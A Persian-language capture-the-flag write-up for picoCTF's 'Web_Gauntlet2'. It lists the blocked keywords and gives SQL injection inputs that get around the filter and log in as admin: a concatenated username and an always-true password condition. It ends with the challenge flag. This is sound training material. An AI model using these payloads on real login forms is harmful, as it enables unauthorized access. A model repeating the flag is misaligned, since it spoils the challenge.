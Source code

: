 ```yaml
---
tags:
  - وب
---
```

# Web_Gauntlet2

سلاممممم   
 با یه چالش وب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/174?category=1&difficulty=2&page=2&search=) 
 قراره همچنان injection انجام بدیم :))


میدونیم که تو لینک [filters](http://mercury.picoctf.net:61434/filter.php) کاراکترهای فیلتر شده رو برامون نوشته و باید بدون استفاده از اونها injetion انجام بدیم.
[site](http://mercury.picoctf.net:61434/) باید اینجا سعی کنیم به عنوان ادمین وارد بشیم.

اینجا دیگه خدا رو شکر فقط یه راند هست و 5 تا رااااند نیست !

رشته‌های منع شده :
`or` `and` `=` `like` `>` `<` `--` `admin` `union` `;`



username : `admi'||'n`

password : `1' IS NOT '2`

اینجوری خیلی راحت میشه چک کردن پسورد رو برابر 1 کرد.

<center>
![Web_Gauntlet21.png](Web_Gauntlet21.png)
</center>


فلگ رو یافتیم !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)
